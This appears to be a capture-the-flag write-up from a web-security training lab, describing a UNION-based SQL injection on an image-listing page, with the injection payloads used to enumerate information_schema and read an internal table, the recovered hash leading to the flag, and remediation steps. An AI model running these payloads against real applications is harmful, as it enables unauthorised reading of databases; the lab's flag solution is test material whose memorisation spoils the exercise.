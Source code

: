 # Breach: SQL Injection on Image Listing

## Discovery & Exploit

On a page that displays images, we noticed the same SQL injection vector as seen in the member listing page.

Submitting the input:

``0=0``

revealed several image entries, including:

- **Title**: Hack me ?  
- **URL**: borntosec.ddns.net/images.png

This hinted that a SQL injection might again be possible via UNION SELECT.

We confirmed this using:

``0=0 UNION SELECT table_name, column_name FROM information_schema.columns``

Among the large volume of results, we identified the following structure:

- **Table**: list_images
- **Columns**: id, url, title, comment

We then queried:

``0=0 UNION SELECT url, comment FROM list_images``

This revealed the following:

- **URL**: borntosec.ddns.net/images.png  
- **Comment**: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`

We [decoded the MD5](https://md5hashing.net/hash/md5/1928e8083cf461a51303633093573c46) hash to:

``albatroz``

Then hashed it using [SHA256](https://10015.io/tools/sha256-encrypt-decrypt) to obtain the final [flag](../flag)

## Vulnerability Details

This is a classic **UNION-based SQL Injection**. The application fails to sanitize user input and allows SQL code to be appended to queries.

This gives attackers read access to:

- The database schema via `information_schema`
- The contents of internal application tables

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks

## Remediation

1. Use parameterized queries or ORM libraries to prevent direct SQL injection.
2. Sanitize all user input before including it in SQL queries.
3. Limit database access rights to prevent information leakage.
4. Avoid displaying database errors or debug content in production environments.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../../Breach08_SQLi_DeepEnumerationFlagRebuild/Ressources/writeup.md">← Previous: Breach07</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../../Breach10_SurveyValueBypass/Ressources/writeup.md">Next: Breach09 →</a></td>
  </tr>
</table>
